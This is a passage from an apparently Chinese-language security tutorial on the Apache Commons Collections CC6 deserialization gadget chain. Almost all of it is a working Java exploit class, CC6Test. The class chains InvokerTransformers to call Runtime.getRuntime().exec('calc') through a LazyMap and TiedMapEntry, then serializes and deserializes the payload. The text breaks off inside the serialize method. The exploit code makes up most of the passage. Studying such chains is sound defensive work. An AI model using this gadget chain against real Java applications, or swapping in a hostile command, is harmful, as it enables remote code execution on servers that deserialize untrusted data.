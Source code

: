 所以我们就可以在 put 完以后将这个 key：aaa 删除，让他反序列化的时候还能够进入 if 语句：

```plain
LazyMap.remove("aaa");
```

### EXP(CC6TiedMapEntry)：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));



        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");
        Lazymap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
```